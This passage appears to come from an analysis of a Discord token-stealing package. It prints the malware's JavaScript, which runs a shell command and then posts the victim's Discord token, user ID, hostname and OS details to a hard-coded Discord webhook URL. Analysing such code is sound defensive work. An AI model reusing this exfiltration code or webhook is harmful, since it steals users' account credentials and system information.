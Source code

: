 ```javascript

          saveToBackup.close();

          setTimeout(() => {

            runShellCmd(backupHelperB);

            sendGrabberWC("Blank", userId, discordToken);

          }, 2000);

        });

      },

    );

  }

}
```

`sendGrabberWC` is a function that takes three parameters: `grabberType, userId, discordToken`, hich then redirects those values to a webhook:

```javascript
function sendGrabberWC(grabberType, userId, discordToken) {

  fetchData.post({

    url: "https://canary.discord.com/api/webhooks/1086685243739750612/9Dcdoaz6L0WLV7f3J6MEI1HCcctdwUfMFlRurYusy-0aihX7RQNhAGDrzB3EIa7npOEc",

    json: {

      content:

        "**Grabber Type: " +

        grabberType + // Search for ".exe", possibly downloads a malicious exe and tries to track which grabber it has used

        "\nUser ID: " +

        userId +

        "\nToken: ```" +

        discordToken +

        "``` \nHostname: " +

        platformInfo.hostname +

        "\nComputerType: " +

        platformInfo.version() +

        " / " +

        platformInfo.release() +

        " / " +

```